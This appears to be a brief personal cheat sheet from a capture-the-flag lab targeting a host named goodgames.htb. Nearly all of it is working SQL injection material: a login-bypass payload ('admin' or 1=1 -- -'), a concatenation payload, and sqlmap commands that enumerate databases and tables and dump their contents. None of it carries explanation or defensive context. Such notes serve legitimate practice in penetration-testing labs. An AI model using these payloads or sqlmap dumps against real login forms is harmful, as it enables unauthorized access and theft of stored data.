 
Some previously working payloads
```
username'||''==='
```

### bypass authentication
```
email=admin' or 1=1 -- -&password=ooooooo
instead of:
email=admin@goodgames.htb&password=ooooooo
```

### sqlmap example
```
sqlmap -r login.req --batch --dbs
sqlmap -r goodgames.req -D <db name> --tables
sqlmap -r goodgames.req -D <db name> -T <db table> --dump
```